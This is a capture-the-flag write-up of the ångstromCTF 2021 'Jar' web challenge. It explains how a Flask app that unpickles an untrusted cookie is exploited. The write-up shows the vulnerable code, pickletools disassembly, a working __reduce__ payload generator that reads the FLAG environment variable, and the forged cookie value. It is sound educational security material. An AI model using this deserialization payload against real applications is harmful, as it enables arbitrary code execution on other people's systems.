



## Introduction

Recently, I became interested in understanding a bit more about web application exploitation. This interest evolved with my daily work with web applications over the last few years, reviewing already developed web application source code, modifying it at times in order to resolve a customer issue and needing to dive deep and debug customer problems in production.
But I always felt that my daily work was only focusing on how to resolve an issue for a customer. I never branched out to actually understanding the security behind the web applications and services I’m debug and the code I was reviewing and modifying. Moreover, I felt that I was not able to identify any security vulnerabilities in the applications I was working with.
So I challenged to take this next step in learning more about web application security vulnerabilities by signing up to [ångstromCTF 2021](https://2021.angstromctf.com), an annual capture-the-flag competition hosted by Montgomery Blair High School (ironically located very near to the high school I attended in Maryland).
This post describes the process by which I was able to finish one of the challenges called Jar under the Web category.

## Initial Setup

When clicking on the particular challenge, you are presented with the following modal:



It includes a link to the web application, a `Dockerfile`, `jar.py` and an image of a pickle (`pickle.jpg`). I downloaded all files, opened the directory in Visual Studio Code, built and ran the docker image:

```bash
mkdir jar
cd jar
code -a .
wget https://files.actf.co/fbb50c51e4eb57abfac63ea2000aad91a62b804d0e6be1d7b95ba369af0f1d1c/jar.py
 
wget https://files.actf.co/fbb50c51e4eb57abfac63ea2000aad91a62b804d0e6be1d7b95ba369af0f1d1c/Dockerfile
 
wget https://files.actf.co/fbb50c51e4eb57abfac63ea2000aad91a62b804d0e6be1d7b95ba369af0f1d1c/pickle.jpg
 
docker build . -t ctf2021-web-jar
docker run --net host -p 5000:5000 $IMAGE_ID
```

And loaded the application on my browser:



We’re introduced to a stretched-out image of the pickle and an input box. Adding any text to the input box generates a REST API POST request to the Flask server and adds a text node over the pickle image:



I added 3 text for testing purposes: ‘admin’, 'test2’, ‘really ugly ui’ (I hope you agree that it is).

## Reviewing the Flask Server Code

The Flask server code is pretty simple. It has 3 routes:

* `GET /` - The root path.
* `GET ./pickle.jpg` - Sends back the image to the frontend.
* `POST /add` - The path where the payload is sent when a new word is added in the input box.

I focused my attention on the latter two routes as the exploit was likely to be found there. Here’s the code for both:

```python
@app.route('/')
def jar():
    contents = request.cookies.get('contents')
    if contents: items = pickle.loads(base64.b64decode(contents))
    else: items = []
    return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button>' + \
        ''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)
 
@app.route('/add', methods=['POST'])
def add():
    contents = request.cookies.get('contents')
    if contents: items = pickle.loads(base64.b64decode(contents))
    else: items = []
    items.append(request.form['item'])
    response = make_response(redirect('/'))
    response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
    return response
```

The root route basically retrieves the client cookie named contents and returns  hardcoded HTML back to the client with a list of items (or an empty list if there are no items).

The `/add` route is responsible for appending a new item to the list of items and setting the cookie.
What is common to both methods/routes is that they both decode the `base64` cookie and load/dump using the `pickle` library.

I’ve worked with the [`pickle`](https://docs.python.org/3/library/pickle.html) library before but not to the extent that I understood completely how it worked. So I turned to the official documentation to review how it performs its de/serialization.

## `pickle` Research and Breakthrough

The first thing I noticed when I accessed the pickle documentation was the following big red warning sign:

> The `pickle` module is not secure. Only un`pickle` data you trust.
> It is possible to construct malicious pickle data which will **execute arbitrary code during unpickling**. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

Sounds like this is where we should focus on. If we review the Flask server code, the logic inside the method serving the root path (`def jar`) `base64` decodes the cookie and loads it using the `pickle` module. This means that if we can somehow tamper with the cookie, we could potentially generate a malicious payload to break the app and capture the flag.
We can access the cookie from the browser using JavaScript:

```javascript
document.cookie
"contents=gASVJgAAAAAAAABdlCiMBWtvYmJplIwFdGVzdDKUjA5yZWFsbHkgdWdseSB1aZRlLg=="

document.cookie.split("=")[1]
 
"gASVJgAAAAAAAABdlCiMBWtvYmJplIwFdGVzdDKUjA5yZWFsbHkgdWdseSB1aZRlLg=="
```

Since we know that this string representing the cookie is `base64` (not only because of the Python code we reviewed but also because it has the famous ‘==‘ suffix), we can decode it and understand it’s structure.
I saved the string into a file called `cookie` and proceeded to `base64` decoded it and pipe it into another file called `cookie_decoded`:

```bash
echo "gASVJgAAAAAAAABdlCiMBWtvYmJplIwFdGVzdDKUjA5yZWFsbHkgdWdseSB1aZRlLg==" > cookie
 
base64 -d cookie > cookie_decoded
```

When printing the contents of `cookie_decoded`, the output had the text I’ve added to the input field surrounded by some unrecognizable characters:

```bash
cat cookie_decoded
 
��&]�(�kobbi��test2��really ugly ui�e.%
```

So it seems that there’s another layer of decoding to the file. Upon further research, I found a [set of tools called `pickletools`](https://docs.python.org/3/library/pickletools.html) that were able to disassemble a pickle file, which is what I believed I had in the string representation of `cookie_decoded`.
I ran the following command to understand how to work with `pickletools`:

```bash
python3 -m pickletools
usage: pickletools.py [-h] [-o OUTPUT] [-m] [-l INDENTLEVEL] [-a] [-p PREAMBLE] [-t] [-v] [pickle_file ...]
 
disassemble one or more pickle files
 
positional arguments:
  pickle_file           the pickle file
 
# ...
```

So it looks like it accepts a file as a positional argument. Therefore I ran:

```bash
python3 -m pickletools cookie_decoded
 
    0: \x80 PROTO      4
    2: \x95 FRAME      38
   11: ]    EMPTY_LIST
   12: \x94 MEMOIZE    (as 0)
   13: (    MARK
   14: \x8c     SHORT_BINUNICODE 'kobbi'
   21: \x94     MEMOIZE    (as 1)
   22: \x8c     SHORT_BINUNICODE 'test2'
   29: \x94     MEMOIZE    (as 2)
   30: \x8c     SHORT_BINUNICODE 'really ugly ui'
   46: \x94     MEMOIZE    (as 3)
   47: e        APPENDS    (MARK at 13)
   48: .    STOP
highest protocol among opcodes = 4
```

To translate the output, I needed to review the [pickletools source code](https://github.com/python/cpython/blob/master/Lib/pickletools.py). The most important parts of the source file are in the comments and describe the data structure of the `pickle` and are included below:

```plaintext
"A pickle" is a program for a virtual pickle machine (PM, but more accurately called an unpickling machine).  It's a sequence of opcodes, interpreted by the PM, building an arbitrarily complex Python object.
 
Opcodes are executed once each, from first to last, until a STOP opcode is reached.
 
The PM has two data areas, "the stack" and "the memo".
 
Many opcodes push Python objects onto the stack
 
Other opcodes take Python objects off the stack.  The result of unpickling is whatever object is left on the stack when the final STOP opcode is executed.
 
The memo is simply an array of objects, or it can be implemented as a dict mapping little integers to objects.  The memo serves as the PM's "long term memory", and the little integers indexing the memo are akin to variable names.  Some opcodes pop a stack object into the memo at a given index, and others push a memo object at a given index onto the stack again.
 
opcodes description
PROTO - A way for a pickle to identify its protocol.
FRAME - The unpickler may use this opcode to safely prefetch data from its underlying stream.
EMPTY_LIST - creates a list.
MARK - Push markobject onto the stack.
MEMOIZE - Store the stack top into the memo.  The stack is not popped. The index of the memo location to write is the number of elements currently present in the memo.
SHORT_BINUNICODE - Push a Python Unicode string object.
APPENDS - Extend a list by a slice of stack objects
STOP - Stop the unpickling machine.
```

After reading the documentation in detail, we are able to decypher what the output instructions of the assembly behind the `pickle` actually mean:

1. The protocol used by this pickle is 4.
1. The size of the frame coming from the stream (represented by the bytes from the `cookie_decoded` file) is 38 bytes long.
1. Generate and push a new empty list to the stack.
1. Store the stack top into the memory at index 0.
1. Push the `markobject` (a special object that marks the current instruction similar to the CIR register in CPU control unit) onto the stack.
1. Push the string ‘kobbi’ into the onto the stack.
1. Store the stack top into the memo at index 1.
1. Repeat instruction 6 and 7 for ‘test2’ and ‘really ugly ui’ strings with indices 2,3 respectively.
1. Extend the list holding the strings.
1. Stop the PM.

Great, so now that we have the instructions, what’s next? Well, we need to figure out how to generate a cookie string that will include a command to read the environmental variable where the cookie value is held and when unpickled, will spit out the flag.

## Generating the Cookie to Expose the Flag

Now that we have a greater understanding what the pickle assembly looks like, the next step would be to find a way to generate a payload that when unpickled, would expose the flag we need to complete the assignment.
If we review the source code of the Flask server, we can see that the flag is held in an environmental variable:

```python
flag = os.environ.get('FLAG', 'actf{FAKE_FLAG}')
```

So in whatever payload we generate, we would need to run a system call to read the environmental variable, probably something like this:

```python
os.getenv('FLAG')
```

That’s the easy part. But how do we generate the payload and insert this command within the bytecode of the cookie to be unpickled?

After some research, I found [the following article describing how we can use the `reduce` method to append additional commands to the bytecode payload](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). The appended command will be used for retrieving the `FLAG` environmental variable.
I used the article to write a script to generate the bytecode payload, modifying it to suit my needs (the author needed to run some commands and get back a reverse shell, here we’re only interested in getting the `FLAG` environmental variable). This is the script called `payloadgen.py`:

```python
import pickle
import base64
import os
 
class PayloadGen(object):
   def __reduce__(self):
      return (os.getenv, ('FLAG',))
 
if __name__ == '__main__':
   dmp = pickle.dumps(PayloadGen())
   print(base64.urlsafe_b64encode(dmp))
```

I’m using `urlsafe_b64encode` here because I want to ensure that the generated encoded payload is URL safe. Also, the extra comma in `('FLAG',)` is there because the second item of the tuple returned by `reduce` must be a `tuple` as well.
I then ran the script:

```bash
python3 payloadgen.py
b'gASVHAAAAAAAAACMAm9zlIwGZ2V0ZW52lJOUjARGTEFHlIWUUpQu'
```

Nice! If we take the value ‘gASVHAAAAAAAAACMAm9zlIwGZ2V0ZW52lJOUjARGTEFHlIWUUpQu‘ and set the cookie to it and refresh the page, we get a scrambled set of letters which is likely our flag!


The last piece of the puzzle is to figure out the correct order of the flag and reassemble it.

## Reassembling the Flag

If we look at the image above, we can see that the letters of the flag are displayed on the site in an unordered manner. When refreshing the page, the letters will be shuffled to a different order. By reviewing the HTML returned by the root path, we see that the method returns a random positioning for each `div` item:

```css
top: {random.random()*100}%;
left: {random.random()*100}%;
```

```python
return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button>' + \
        ''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)
```

But, what we notice here is that the `for` loop (`for item in items`) iteration is actually done in an ordered manner, which should simplify figuring out how to reassemble the flag text. So I reviewed the HTML of the page and found that the items are, as expected, positioned in an ordered manner (all Angstrom CTF flags have the following standard structure: `actf{}`):


So we could just manually take each `div` value and construct the flag. But the more elegant way would be to use some JavaScript to construct the flag:

```javascript
var letters = document.getElementByTagName("div")
var flag = ""
 
for (var i = 0; i < letters.length; i++){
   flag += letters[i].innerText;
}
```

Which outputs the flag:

```javascript
flag

actf{you_got_yourself_out_of_a_pickle}
```
